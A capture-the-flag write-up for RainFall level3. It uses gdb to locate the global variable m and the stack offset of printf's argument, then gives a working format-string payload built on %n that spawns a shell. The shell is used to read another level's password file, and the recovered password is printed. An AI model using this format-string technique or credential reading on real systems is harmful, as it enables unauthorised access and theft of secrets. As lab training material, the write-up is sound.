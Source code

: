 ## Find the addess of m to change his value

In the asm we can see `0x80484e2 <v+62>        jne    0x8048518 <v+116>`, we check

```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
> yes, we got the address &m = 0x804988c

## Find the address of the buffer / printf arguement

```sh
(gdb)
AAAA
0x080484cc in v ()
(gdb) x/80x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
0xbffff560:     0x00000098      0x0000000b      0x00000000      0x00000000
0xbffff570:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff580:     0x00000000      0xb7fe765d      0xb7e3ebaf      0x080482bb
0xbffff590:     0x00000000      0x00000000      0x00000000      0xb7fe749f
0xbffff5a0:     0xb7fd5000      0x00000002      0x08048268      0xb7fffc00
0xbffff5b0:     0xb7ffeff4      0xb7ffeff4      0xb7e2fc30      0x00000001
0xbffff5c0:     0xb7fdcb18      0xb7fe7cac      0x00000000      0x00000000
0xbffff5d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5e0:     0x00000000      0xb7fdcb18      0x00000000      0x00000000
0xbffff5f0:     0x00000000      0x00000003      0xf63d4e2e      0x000003f3
0xbffff600:     0x00000000      0xb7e38938      0xb7fffe78      0xb7ff9d5c
0xbffff610:     0xb7e2fe38      0x00000000      0x00000000      0xb7e5d58d
0xbffff620:     0x00000000      0x00000000      0x00000001      0x000008b0
0xbffff630:     0xb7fdcb48      0xb7fdc858      0x080482a9      0xb7e39158
0xbffff640:     0x08048218      0x00000001      0xb7ec36c0      0xb7ec3996
(gdb) x/s $esp + 16
0xbffff520:      "AAAA\n"
```

But printf read chars to 4bites 16 / 4 = 4

```sh
level3@RainFall:~$ ./level3
%4$p
0x70243425
```
> 0x70243425 = ?p$4%, so we got it

## Exploit

```sh
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%59x' + '\%4\$n')"; cat) | ./level3
��                                                        200\
Wait what?!
ls
ls: cannot open directory .: Permission denied
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

%n write to the specified argument the size of the string before the %n in the associed argument wich is a int*. So we writing the address to got it in the stack and then we write the length of the substring on the 4th argument, were the string is so were the address is set in the stack.
